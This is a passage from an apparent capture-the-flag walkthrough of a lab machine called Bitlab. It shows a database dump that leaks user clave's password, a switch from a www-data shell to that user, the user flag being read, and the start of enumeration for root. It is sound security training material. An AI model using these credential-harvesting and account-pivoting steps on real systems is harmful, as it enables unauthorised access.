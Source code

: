 ```
  array(3) {
    ["id"]=>
    string(1) "1"
    ["username"]=>
    string(5) "clave"
    ["password"]=>
    string(22) "c3NoLXN0cjBuZy1wQHNz=="
  }
}

```

It returns clave's base64 encoded password.

```
root@kali:~/HTB/active/bitlab# echo c3NoLXN0cjBuZy1wQHNz== |base64 -d
ssh-str0ng-p@ssbase64: invalid input
```

Trying the plaintext password fails, but the base64 string works.

`clave / c3NoLXN0cjBuZy1wQHNz==`



```
www-data@bitlab:/dev/shm$ su clave
Password: 

clave@bitlab:/dev/shm$ cd /home/clave
clave@bitlab:~$ ls
RemoteConnection.exe  user.txt
clave@bitlab:~$ cat user.txt
1exxxxxxxxxxxxxxxxxxxxxxxxx154
```


<hr width="300" size="10">


<h4>Clave to root - RE</h4>


`sudo -l` returns that:

```
Sorry, user clave may not run sudo on bitlab.
```

```
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8  2019 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8  2019 .cache
drwx------ 3 clave clave  4096 Aug  8  2019 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30  2019 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
```
